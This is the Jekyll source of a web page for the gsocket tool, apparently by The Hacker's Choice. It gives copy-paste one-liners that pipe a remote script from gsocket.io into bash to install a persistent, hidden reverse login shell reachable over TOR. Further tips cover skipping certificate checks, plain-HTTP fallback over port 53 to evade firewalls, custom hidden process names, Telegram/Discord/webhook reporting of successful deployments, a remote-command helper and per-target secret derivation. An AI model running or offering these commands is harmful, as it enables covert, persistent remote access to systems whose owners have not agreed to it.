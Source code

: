 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these three commands to _install_, _uninstall_, and _access_:

<div class="tabs-wrapper">
    <div class="tabs">
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <label for="curl-init" class="tab-label">Curl</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSL https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">Windows user need to manually install <A HREF="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip">the binary</A>. Contact us if you like to write a powershell deploy script.</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
GS_NOCERTCHECK=1 bash -c "$(curl -fsSLk https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh -o deploy-all.sh && \
bash deploy-all.sh
# alternative if port 443 is firewalled:
GS_PORT=53 bash deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
GS_NOCERTCHECK=1 bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- https://gsocket.io/y)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash deploy-all.sh
# alternative if port 443 is firewalled:
GS_PORT=53 bash deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk https://gsocket.io/y)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. An alternative base is https://github.com/hackerschoice/binary/raw/main/gsocket|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL https://gsocket.io/y)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|GS_HOST=|Use a specific GSRN server (or [your own relay](https://github.com/hackerschoice/gsocket-relay/blob/main/README2.md)). Try GS_HOST=1.2.3.4|
|GS_PORT=|Use a specific GSRN port. Try any of 22,53,67,443,7350|
|GS_TG_TOKEN=|Telegram Bot Key for reporting successfull deployments.|
|GS_TG_CHATID=|Telegram Chat ID.|
|GS_DISCORD_KEY=|Report to Discord|
|GS_WEBHOOK_KEY=|Report to webhook.site|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/gsocket/releases/latest/](https://github.com/hackerschoice/gsocket/releases/latest). There also is an (unsupported) [Windows binary](https://github.com/hackerschoice/binary/blob/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip) or use [qsocket.io](https://www.qsocket.io/).

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
# This will not survive reboot. Temporary access only.
killall gs; \
curl -fsSLk -ogs https://github.com/hackerschoice/gsocket/releases/latest/download/gs-netcat_linux-$(uname -m) \
&& chmod 755 gs \
&& S=$(./gs -g) \
&& GS_PORT=53 GSOCKET_ARGS="-liD -s $S" ./gs \
&& echo "Connect with: gs-netcat -s $S -i" \
&& rm -f gs
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
# This will not survive reboot. Temporary access only.
killall gs; \
wget --no-check-certificate -qOgs https://github.com/hackerschoice/gsocket/releases/latest/download/gs-netcat_linux-$(uname -m) \
&& chmod 755 gs \
&& S=$(./gs -g) \
&& GS_PORT=53 GSOCKET_ARGS="-liD -s $S" ./gs \
&& echo "Connect with: gs-netcat -s $S -i" \
&& rm -f gs
{% endhighlight %}
            </div>
        </div>
    </div>
</div>
(Note: *GS_PORT=53* is only needed if port 443 is firewalled).

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

### 1. Run your own Deployment Server  
This method logs each successful deployment. The 1-line command creates an ephemeral and public facing HTTPS tunnel (via Cloudflare) so that your server can be behind NAT/Firewall:

{% highlight sh %}
LOG=results.log bash -c "$(curl -fsSL https://gsocket.io/ys)"
{% endhighlight %}

### 2. Execute a remote command  

{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gsexec() {
    set +m
    { echo "$2; kill -9 \$\$; __START";  sleep infinity;}|{ gs-netcat -s "$1"|sed -un '/__START/,$p'|tail +2; kill 0;}
    set -m
}
{% endhighlight %}

Then execute a remote command like this:
{% highlight sh %}
gsexec MySecretChangeMe "id; uname -a"
{% endhighlight %}

### 3. Managing Secrets  
Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec() {
    [[ -z $GS_SEED ]] && { echo >&2 "Please type: GS_SEED=MySuperStrongMasterSeed"; return 255; }
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    [[ ! -t 1 ]] && { echo "${str}"; return; }
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL https://gsocket.io/y)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL https://gsocket.io/y)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}
{% endhighlight %}
{% highlight sh %}
# Set a Master Seed:
GS_SEED="ThisIsMySecretMasterSeed"

# Connect to 'alice.com'
gs-netcat -i -s $(gssec alice.com)
-----------------------------------------------------------------------------
# or show the commands to deploy on/access to 'alice.com'
gssec alice.com

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL https://gsocket.io/y)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL https://gsocket.io/y)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>


<!-- Moved JS code as includes -->
{% include footer.html %}
